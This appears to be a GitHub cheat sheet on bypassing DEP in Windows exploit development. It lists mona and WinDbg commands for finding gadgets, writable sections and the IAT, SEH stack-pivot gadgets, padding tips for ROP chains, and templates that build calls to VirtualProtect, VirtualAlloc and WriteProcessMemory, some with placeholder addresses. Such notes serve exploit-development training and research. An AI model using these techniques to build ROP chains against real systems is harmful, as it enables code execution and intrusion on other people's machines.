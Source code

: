 # DEP bypass
Some methods and hint to bypass DEP

1. Have you overwrite EIP? 

    ```py
    !py mona find -type instr -s "ret" -m MODULE.dll
    ```

2. Have you overwrite SEH?

   ```py
    add esp, offset + ret
    mov esp, register + ret
    xchg register,esp + ret
    call register (se il registro punta al nostro buffer)
    mov reg,[ebp+0c] + call reg (or other references to seh record)
    push reg + pop esp + ret (if you control ‘reg’)
    mov reg, dword ptr fs:[0] + … + ret  (set esp indirectly, via SEH record)
    ```

3. Search mona modules without rebase
  
    ```py
    !py mona modules -cm rebase=false
    ```
    
    
4. Always remember the padding

    ```py
    ecx = pack("<I",0x68b90948)  # XOR ECX,ECX # MOV EAX,ECX # POP EBX # POP ESI # RETN
    ecx += pack('<L',0x41414141) # padding for pop ebp
    ecx += pack('<L',0x41414141) # padding for pop esi
    ```
    
5. Same for RETN 0xN

    ```py
    rop += istruzione_retn # padding for retn 0x04
    rop += istruzione_retn # padding for retn 0x04
    ```
6. Same for ADD ESP,XX

    ```py
    ecx += pack('<L',0x41414141) # padding for add esp
    ecx += pack('<L',0x41414141) # padding for add esp
    ....
    ```
6. Search RW module
 
    ```py
    0:000> !dh module
    ......

    SECTION HEADER #6
    .idata name
        224 virtual size
        6000 virtual address
        400 size of raw data
        1600 file pointer to raw data
        0 file pointer to relocation table
        0 file pointer to line numbers
        0 number of relocations
        0 number of line numbers
    C0300040 flags
         Initialized Data
         4 byte align
         Read Write
    ............
    
    0:000>  ? modules + 224 + 6000 + 4
    Evaluate expression: 1649435176 = 62506228
  
    0:000> !address 62506228
    Usage:                  Image
    Base Address:           62506000
    End Address:            62507000
    Region Size:            00001000 (   4.000 kB)
    State:                  00001000          MEM_COMMIT
    Protect:                00000004          PAGE_READWRITE
    Type:                   01000000          MEM_IMAGE
    Allocation Base:        62500000
    Allocation Protect:     00000080          PAGE_EXECUTE_WRITECOPY
    Image Path:             C:\Users\User\Desktop\vulnserver\essfunc.dll
    Module Name:            essfunc
    Loaded Image Name:      
    Mapped Image Name:      
    More info:              lmv m essfunc
    More info:              !lmi essfunc
    More info:              ln 0x62506228
    More info:              !dh 0x62500000
    ```

7. Get IAT
    ```py
    0:009> !dh fsws -f
        0  DLL characteristics
        0 [       0] address [size] of Export Directory
    192B50 [     1CC] address [size] of Import Directory
    1AE000 [   133E0] address [size] of Resource Directory
        0 [       0] address [size] of Exception Directory
        0 [       0] address [size] of Security Directory
        0 [       0] address [size] of Base Relocation Directory
    166C40 [      1C] address [size] of Debug Directory
        0 [       0] address [size] of Description Directory
        0 [       0] address [size] of Special Directory
        0 [       0] address [size] of Thread Storage Directory
        0 [       0] address [size] of Load Configuration Directory
        0 [       0] address [size] of Bound Import Directory
    166000 [     C40] address [size] of Import Address Table Directory
        0 [       0] address [size] of Delay Import Directory
        0 [       0] address [size] of COR20 Header Directory
        0 [       0] address [size] of Reserved Directory

    0:009> dps fsws +0x166000 L100
    00566000  7606eb20 advapi32!RegCloseKeyStub
    00566004  760731e0 advapi32!RegEnumKeyA
    00566008  7606ea50 advapi32!RegQueryValueExAStub
    005662f4  7588b6b0 KERNEL32!GetPrivateProfileStringA
    005662f8  7588ae50 KERNEL32!WritePrivateProfileStringA
    005662fc  758887a0 KERNEL32!GetModuleFileNameAStub
    ......
    0:009> dps
    ......
    ```
    
## VirtualProtect Basic Template

```py
#GOALS - VirtualProtect
#EAX 90909090 => Nop                                              
#ECX <writeable pointer> => lpflOldProtect                                
#EDX 00000040 => flNewProtect                                   
#EBX 00000201 => dwSize   512                                      
#ESP ???????? => Leave as is                                 
#EBP ???????? => Call to ESP (jmp, call, push,..) -> !py mona jmp -r esp -cpb '\x00'              
#ESI ???????? => PTR to VirtualProtect - DWORD PTR of VirtualProtect 
#EDI RETN => ROP-Nop same as EIP  --> !py mona find -type instr -s "retn" -m module.dll -cpb "\x00"
```
## VirtualProtect Sniper Template

```py
# Calling VirtualProtect with parameters
payload += struct.pack('<L', 0x77325c90)    # Pointer to kernel32.VirtualProtect()
payload += struct.pack('<L', 0x11111111)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
payload += struct.pack('<L', 0x22222222)    # lpAddress
payload += struct.pack('<L', 0x33333333)    # size of shellcode (0x500 is ok)
payload += struct.pack('<L', 0x44444444)    # flNewProtect (0x40)
payload += struct.pack('<L', 0x62506d10)    # pOldProtect (any writeable address)
```

## VirtualAlloc Template
```py
#GOAL       VirtualAlloc                                         
# EAX 90909090 => Nop                                                
# ECX 00000040 => flProtect                                         
# EDX 00001000 => flAllocationType                                    
# EBX 00000001 => dwSize                                            
# ESP ???????? => Leave as is                                         
# EBP ???????? => Call to ESP (jmp, call, push,..)    !py mona jmp -r esp -cpb '\x00'                    
# ESI ???????? => PTR to VirtualAlloc - DWORD PTR of VirtualAlloc         
# EDI RETN => ROP-Nop same as EIP          !py mona find -type instr -s "retn" -m modulo.dll -cpb "\x00"   
```

## WriteProcessMemory Template
No encoding for this method! Create manually the shellcode
```py
# kernel32!WriteProcessMemory placeholder parameters
payload += struct.pack('<L', 0x7732ae50)    # Pointer to kernel32!WriteProcessMemory 
payload += struct.pack('<L', 0x61c72d10)    # RX from MODULE no aslr
payload += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
payload += struct.pack('<L', 0x61c72d10)    # lpBaseAddress = RX from MODULE no aslr
payload += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
payload += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
payload += struct.pack('<L', 0x1004dd10)    # lpNumberOfBytesWritten = writable location RW in MODULE no aslr
```
## Resources
1. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
2. https://vickieli.dev/binary%20exploitation/data-execution-prevention/
3. https://connormcgarr.github.io/ROP/
4. https://trailofbits.files.wordpress.com/2010/04/practical-rop.pdf
5. https://www.fuzzysecurity.com/tutorials/expDev/7.html
6. https://h0mbre.github.io/Creating_Win32_ROP_Chains
7. https://www.shogunlab.com/blog/2018/02/11/zdzg-windows-exploit-5.html
8. https://connormcgarr.github.io/ROP2/
